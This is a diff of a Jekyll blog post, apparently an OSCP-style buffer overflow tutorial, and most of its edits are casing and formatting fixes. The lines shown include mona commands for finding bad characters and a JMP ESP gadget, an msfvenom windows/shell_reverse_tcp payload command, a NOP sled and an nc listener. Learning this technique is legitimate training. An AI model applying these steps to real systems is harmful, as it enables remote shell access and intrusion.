

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-11-bufferOverflow.md, in a window 1280 px wide and 1400 px high, scrolled down 2611 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-08-11-bufferOverflow.md
+++ b/_posts/2020-08-11-bufferOverflow.md
@@ -151,7 +152,7 @@ except:
 
 When the application crashes, EIP should be equal to 41414141 (hex value of "AAAA").
 
-### Crash Replication & Controlling EIP
+### Crash replication & controlling EIP
 
 #### Pattern
 
@@ -165,7 +166,7 @@ Generate a cyclic pattern to find the exact offset of the crash :
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE>
 ```
 
-The size must be higher than the crash offset, now modify the "payload "variable by the cyclic pattern :
+The size must be higher than the crash offset. Now modify the "payload" variable by the cyclic pattern :
 
 ```
 # exploit.py
@@ -208,9 +209,9 @@ Size is the same as the one used to create the pattern. The result should be som
 EIP contains normal pattern : ... (offset XXXX)
 ```
 
-Get the offset, modify :
+Get the offset, modify in exploit.py:
 
-- The "offset" variable in exploit.py
+- The "offset" variable by the offset
 - The "retn" variable by "BBBB"
 - Remove the "payload" variable
 
@@ -223,7 +224,9 @@ payload = ""
 
 Re-run exploit.py, EIP should be equal to 42424242 (hex value of "BBBB"). You know control EIP !
 
-### Finding Bad Characters
+### Finding bad characters
+
+Certain byte characters can cause issues in the development of exploits. We must run every byte through the program to see if any characters cause issues. By default, the null byte (x00) is always  considered a bad character as it will truncate shellcode when executed.
 
 - !mona bytearray -b "\x00" -> copy results to payload variable
 - Re-run exploit.py
@@ -231,7 +234,7 @@ Re-run exploit.py, EIP should be equal to 42424242 (hex value of "BBBB"). You kn
 - !mona bytearray -b "\x00 + BAD_CHARS" -> copy results to payload variable
 - !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.
 
-### Finding a Jump Point
+### Finding a jump point
 
 ```
 !mona jmp -r esp -cpb "BAD_CHARS"
@@ -245,14 +248,18 @@ or
 !mona find -s "\xff\xe4" -m DLL
 ```
 
-### Generate Payload
+### Generate payload
 
 msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "BAD_CHARS" -f py -> Copy the generated shell code setting the payload variable
 
 ### Prepend NOPs
 
+```
 padding = "\x90" * 16
+```
 
 ### Start nc listerner
 
-nc -lvp "PORT"
+```
+nc -lvp <PORT>
+```
````
Also changed, not shown: other parts of _posts/2020-08-11-bufferOverflow.md (+3 -2 lines).
